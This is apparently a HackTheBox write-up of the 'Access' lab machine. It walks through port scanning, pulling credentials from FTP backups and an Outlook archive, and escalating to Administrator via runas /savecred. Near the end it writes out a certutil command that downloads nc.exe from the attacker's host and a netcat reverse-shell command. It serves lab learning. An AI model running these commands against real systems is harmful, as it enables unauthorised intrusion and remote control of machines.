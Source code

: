 ```yaml
---
title: "HTB Write-up: Access"
date: 2018-12-19
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, runas, certutil, 7z, readpst]
header:
    teaser: "/assets/images/htb/access/access.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![access_info](/assets/images/htb/access/access_info.png)

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this intial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.98
```

From `masscan`, it was revealed that TCP ports 21 (FTP), 23 (Telnet), and 80 (HTTP) were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 21,80,23 -sC -sV -oA scans/discovered-tcp 10.10.10.98 
```

As expected, the services listening for connections on Access were FTP, Telnet, and HTTP. A screenshot of the result of the `nmap` scan is shown below.

![nmapresults](/assets/images/htb/access/nmapresults.png)

Of notable significance in this result is the "Anonymous FTP login allowed" line. This means that a user may access the FTP server running on Access as an anonymous user (with no password required). The process of accessing the FTP server in this manner is shown in the image below.

![ftp](/assets/images/htb/access/ftp.png)

Two directories were found in the root directory of the FTP server; a `Backups` directory and an `Engineer` directory. Searching through these directories revealed two interesting files; `backup.mdb` in the `Backups` directory and `Access Control.zip` in the `Engineer` directory. The FTP command `get` can be used to transfer the remote files to the local testing host. Depending on the contents being transferred with `get`, it is often advisable to transfer the data in binary mode (as opposed to in ASCII (text) mode). Binary mode transfers data byte-for-byte while ASCII mode will convert line endings from those of the sending system to those of the receiving system. Binary mode can be enabled with the FTP `binary` command. 

Once `backup.mdb` and `Access Control.zip` have been retrieved from the remote FTP server, they can be more thouroughly examined with the Linux `file` command. An example of this is demonstrated below.

```
root@kali:~/workspace/hackthebox/Access# file backup.mdb; file 'Access Control.zip'
backup.mdb: Microsoft Access Database
Access Control.zip: Zip archive data, at least v2.0 to extract
```

As files with the `.mdb` extension are not commonly used in Linux environments, a little searching was required to determine how to work with this Microsoft Access Database file type. The [MDBOpener](https://www.mdbopener.com) website was used to upload the `backup.mdb` Microsoft Access Database base, extract the contents, and export the data in CSV format. After parsing through the various tables present within the backup database, the `auth_user` table was eventually found, the contents of which are shown in the image below.

![authuser_csv](/assets/images/htb/access/authuser_csv.png)

As the content within the `auth_user` table appears to contain username-password combinations, the username-password pairs were used in attempts to access the Telnet server running on TCP port 23 of the target system, but to no avail. Time to look elsewhere.

Moving on to the second file retreived from the FTP server, the `'Access Control.zip'` file can be unziped using the `7z` tool, as shown below.

```
root@kali:~/workspace/hackthebox/Access# 7z x 'Access Control.zip'
```

In this case, the file is password protected. Using the password `access4u@security` password found previously in the `auth_user` table within the Microsoft Access Database successfully unzips the `'Access Control.zip'` file, revealing the `'Access Control.pst'` file. Checking this file out with `file` reveals that the `.pst` file is a Microsoft Outlook email folder:

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.pst'
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

After a little research, it was found that the `readpst` tool as provided by the `pst-utils` package can be used to read the information within a `.pst` file. If necessary, `pst-utils` can be installed with the `apt-get install pst-utils` command. After using `read-pst` to reclaim the contents within the `'Access Control.pst'` file, the `'Access Control.mbox'` file is returned.

```
root@kali:~/workspace/hackthebox/Access# file 'Access Control.mbox'
Access Control.mbox: HTML document, UTF-8 Unicode text, with very long lines
```

As this contains UTF-8 Unicode text, it can be read using `vi`. A snippet of the contents within the `'Access Control.mbox'` file is shown below.

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John
```

Thanks for the information, John. 

The username `security` with the password `4Cc3ssC0ntr0ller` can be used to log in Access using `telnet`. At this point, the `user.txt` flag can be read. This process is shown in the screenshot below.

![user_txt](/assets/images/htb/access/user_txt.png)

## Root
While running through the usual privelege escalation enumeration commands, something stood out as odd. After running the `net users administrator` command, it was revealed that the "Password Not Required" property has been set for the Administrator user. This means that the Administrator user is allowed passwordless logon to the system.

![net_user](/assets/images/htb/access/net_user.png)

Investigating this property further with the Windows `cmdkey /list` command, it can be seen that the Administrator user has a stored credential on the system.

![cmdkey](/assets/images/htb/access/cmdkey.png)

Continuing enumeration, the `ZKAccess3.5 Security System.lnk` shortcut file found on the Public user's desktop suggests that commands can be run as the Administrator using the `runas` Windows command along with the `/savecred` flag. The `runas` command can be used to run a Windows command as another system user. 

![cmdkey](/assets/images/htb/access/cmdkey.png)

Putting these pieces together, it is clear that system commands can be run as the Administrator user if the `/savecred` flag is included as part of the `runas` command. The fact that the Administrator does not need a password to logon to the system, that the Administrator user has a stored credential on the system, and that `runas` command with the `/savecred` flag is being used on the system suggests a possible privelege elevation scenario.

To leverage this situtation, `nc.exe` can be transferred to the target system and then used to obtain a reverse shell that connects to the attacking machine.

In this case, the `certutil` Windows tool is used on the target system to download `nc.exe`to the target system. After using Python's `SimpleHTTPServer` to host `nc.exe` on the attacking system, the `certutil` command shown below was run on the target system to download the `nc` executable to the system.

```
C:\Users\security\Music>certutil.exe -urlcache -split -f http://10.10.14.2/nc.exe nc.exe
```

A screenshot of this process is included below.

![cert_util](/assets/images/htb/access/cert_util.png)

With `nc.exe` on the target system and a `nc` listener listening on the attacking system, the command shown below was run on the target system to create a reverse shell connection to the attacking system.

```
C:\Users\security\Music>runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.2 4444"
```

From the connection received on the attacking system, the `root.txt` flag can be read.

![root_txt](/assets/images/htb/access/root_txt.png)
